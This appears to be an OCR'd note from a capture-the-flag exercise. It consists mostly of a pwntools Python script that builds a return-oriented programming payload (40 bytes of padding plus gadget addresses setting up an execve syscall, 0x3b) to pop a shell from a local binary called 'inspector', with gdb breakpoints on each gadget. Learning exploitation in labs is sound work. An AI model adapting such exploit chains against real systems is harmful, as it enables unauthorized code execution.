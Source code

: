 It seems like my biggest issue might be my stack size at the beginning
	Although actually, this all needs to go on the stack in the same place....I bet this is gonna need to go AFTER the 40 bytes of padding

# Test 01
Code:
```python
def buildPld():
	addrA = p64(0x0040062e)
	datA = p64(0x00400708)
	addrB = p64(0x00400636)
	addrC = p64(0x0040063e)
	datBC = p64(0x00)
	addrD = p64(0x00400646)
	datD = p64(0x3b)
	addrE = p64(0x00400625)
	addrF = p64(0x004004a9)
	pad = cyclic(40)

	pld = pad + addrA + datA + addrB + datBC + addrC + datBC + addrD + datD + addrE + addrF
	return pld

def breakGadgets(p):
	addrA = '0x0040062e'
	addrB = '0x00400636'
	addrC = '0x0040063e'
	addrD = '0x00400646'
	addrE = '0x00400625'
	addrF = '0x004004a9'

	gadgetAddrs = [addrA, addrB, addrC, addrD, addrE, addrF]
	for a in gadgetAddrs:
		print("break *" + a)
		p.sendline("break *" + str(a))
		p.recv()

	return 0


def testPld():
	p = process('/bin/bash')
	p.sendline('gdb ./inspector -q')
	p.sendline("break *0x00400678")
	breakGadgets(p)
	p.sendline("r")
	p.recv()
	p.sendline("c")
	#print(p.recv())
	p.recvuntil("shell!")
	p.sendline(buildPld())
	p.interactive()
```
